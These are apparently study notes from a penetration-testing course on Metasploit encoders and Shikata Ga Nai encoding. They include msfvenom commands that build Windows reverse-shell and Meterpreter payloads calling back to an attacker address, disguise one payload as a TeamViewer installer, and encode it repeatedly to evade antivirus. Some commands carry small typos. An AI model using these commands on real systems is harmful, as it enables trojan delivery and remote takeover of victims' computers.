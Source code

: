 # Metasploit Encoders 

A Metasploit #Encoder makes payloads compatible with different types of computer processors, architectures, and operating systems while also facilitating evasion of detection tools. They additionally remove hexadecimal opcodes known as 'bad characters'.

The following architectures are supported by encoders:

- x64
- x86
- sparc
- ppc
- mips

Shikata Ga Nai ( #SGN) is a very common encoding scheme that is adept at evading detection tools. It is so evasive and persistent that it's name literally means "It cannot be helped" or "Nothing can be done about it".

### Selecting Encoders

Older iterations of Metasploit Framework predating 2015 used encoders that were separately packaged from the msfconsole files and stored within the /usr/share/framework2/ directory. These were known as msfpayload and msfencode and allowed a user to create and encode custom payloads via the pipe command.

An example of these two modules in use is as follows:

>msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\\x00' -f perl -e x86/shikata_ga_nai

These two tools were combined in the the #msfvenom tool after 2015 and here is an example of its use:

>msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.01 LPORT=4444 -b "\\x00" -f perl

This will open the $buf interface.

#### Showing Encoders

If we choose to set a payload, we can then issue the command show encoders, which is similar to using the show options command.

>set payload 15
>show encoders

This will populate the list of encoders that will work with our x64 system. A list will be generated that is compatible wit the systems available for our exploit of choice. 

For this example we will use the MS09-050 Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference Exploit. Once you have loaded the module, execute the 'show encoders' command:

>show encoders

We may need to encode our payload more than once to avoid being detected by anti-virus software. 

Use the following command to view the payload in exe format for x86 architecture on Windows:

>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe

This will execute a reverse #TCP shell with the encoded Shikata Ga Nai payload. This would be detected by anti-virus software. To avoid this we would want to run it through the encoding process multiple times as shown in the following example:

>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 PORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe

Although we will encode this several extra times, it will still be detected by anti-virus software. Metasploit offers a tool called msf-virustotal that can be used in conjunction with an #API key to analyze payloads. Create a free account on VirusTotal to access this tool.

After downloading the tool we can use the following command to evade the anti-virus software:

>msf-virustotal -k \<API key> -f TeamViewerInstall.exe

Unfortunately even this method would be unsuccessful at evading AV software. We will cover this in further detail in later modules.

